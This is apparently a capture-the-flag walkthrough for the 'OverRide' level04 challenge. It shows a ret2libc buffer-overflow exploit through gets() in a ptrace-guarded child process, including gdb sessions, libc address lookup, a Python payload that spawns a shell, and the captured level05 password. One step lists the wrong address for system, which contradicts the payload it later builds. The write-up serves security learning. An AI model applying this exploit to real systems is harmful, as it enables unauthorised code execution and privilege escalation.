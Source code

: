 
# Walkthrough

**Main** : 
this program is meant to demonstrate how a parent process can use ptrace to monitor and control the execution of a child process. 
It prevents debugging of the child process and block the use of the execve system call. 
However, it contains a security vulnerability due to the use of gets(), which can lead to buffer overflow  and shellcode  in the child process, we going to exploit this vulnerability 



**Process to exploit :**
>   1. **Find the offset**. 
>   2. **Method RET2LIBC** 
>  3. **Load payload**


## Step 1

###  Find the Offset

```
level04@OverRide:~$ gdb level04 
...
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 6028]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 6028]
0x41326641 in ?? () 
```

the offset is `0x41326641` = 156

## Step 2

### Set environnement variable
like the parent process block the use of the execve system call in child process 
We going to use method **RET2LIBC**   Instead of directly executing shellcode, the attacker leverages existing code in the program's memory. 
They often target the C standard library (libc) functions that are already loaded in memory, such as system(), exit()

**Utile command:**

 1. The command `info proc map` in GDB is used to display the memory map or memory layout of the currently debugged process. It provides information about the memory regions used by the process, such as code, data, stack, and shared libraries.
 2. This command sets GDB to follow the child process when a fork is executed
 3. x/s address :  is used to examine memory at a specific address it's attempting to print a string located at the specific memory address 
we need the address of the follow item from the libc memory 

 **We need the address of the follow item from the libc memory  Address**  : 
  -  system   
 - exit          
 - /bin/sh  

```
level04@OverRide:~$ gdb level04 
...
(gdb) set follow-fork-mode child
(gdb) info function system
(gdb) r
Starting program: /home/users/level04/level04 
[New process 6374]
Give me some shellcode, k
^C

<--make pause to the program while it's running with `CTRL+C` to interrupt the program.-->

(gdb) info function system
...
0xf7e6aed0  system

(gdb) info function exit
...
0xf7e5eb70  exit

(gdb) info proc map
process 6455
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	...

	(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
	0xf7f897ec
	1 pattern found.
	(gdb) x/s 0xf7f897ec 
	0xf7f897ec:	 "/bin/sh"
```

**Address** 
 -  system   =  0xf7f897ec
 - exit          =  0xf7e5eb70
 - /bin/sh =  0xf7f897ec 


## Step 3

### Load payload

```
level04@OverRide:~$ (python -c "print 156 * 'A' + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xf7\xf8\x97\xec'[::-1]" ; cat) |./level04
Give me some shellcode, k
ls
ls: cannot open directory .: Permission denied
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
